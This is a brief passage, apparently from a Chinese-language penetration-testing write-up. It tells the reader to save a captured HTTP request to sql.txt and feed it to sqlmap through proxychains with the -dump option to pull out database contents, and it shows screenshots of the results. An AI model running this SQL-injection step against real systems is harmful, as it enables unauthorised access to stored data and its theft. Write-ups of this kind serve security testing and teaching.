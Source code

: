 [![](assets/1705540441-756631b3a9077292b31d6437c4179d35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175218-efc628fa-b454-1.png)

此时将数据包保存在sql.txt中，放入sqlmap中进行扫描，直接`-dump`获取数据

```plain
proxychains sqlmap -r "sql.txt"  -dump
```

[![](assets/1705540441-29be9f0bfd578cd82beebb27343d5bd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175234-f914fd8c-b454-1.png)
